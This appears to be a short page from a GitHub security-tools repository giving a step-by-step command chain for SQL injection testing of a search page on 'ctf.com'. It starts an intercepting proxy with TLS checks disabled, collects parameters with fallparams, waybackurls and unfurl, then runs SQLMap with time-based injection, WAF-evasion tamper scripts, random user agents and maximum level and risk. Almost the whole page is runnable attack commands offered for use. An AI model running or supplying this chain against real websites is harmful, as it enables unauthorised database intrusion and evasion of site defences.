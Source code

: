 # SQLMap Over Zero-Trust

These will be invaluable for our SQLMap scan.

command sequence incorporating everything:

0. Run <a href="https://github.com/dewebdes/ZedAlert/blob/main/tools/fuzz/dns/multiproxy-injection-fat.py">MITM-CL</a> proxy:
   ```bash
   ./mitmweb --set block_global=false --ssl-insecure -s multiproxy-injection-fat.py > /dev/null 2>&1
   ```

1. Use `fallparams` to crawl the target URL and gather parameters:
   ```bash
   ./fallparams -u https://ctf.com/Search.aspx -crawl
   ```

2. Use `waybackurls` and `unfurl` to gather additional parameters:
   ```bash
   echo "ctf.com" | ./waybackurls | ./unfurl keys | tee way-unf.txt
   ```

3. Combine all parameter sources into a single, unique wordlist including the top-27 XSS parameters:
   ```bash
   cat parameters.txt top-27-xss-parameter.txt way-unf.txt | sort | uniq > params.txt
   ```

4. Run SQLMap with the generated wordlist and crawling enabled:
   ```bash
   sqlmap -u "https://ctf.com/Search.aspx?postback=true&more=false&jto=1&q=consultant&rad=5&where=dusseldofr&indid=37&indid=4" --technique=T --batch --delay=25 --time-sec=15 --random-agent --tamper=between --tamper=space2comment --proxy=http://127.0.0.1:8080 --level=5 --risk=3 --wordlist=params.txt --crawl=3
   ```

This comprehensive approach combines the strengths of parameter discovery tools with the thoroughness of SQLMap's scanning capabilities.
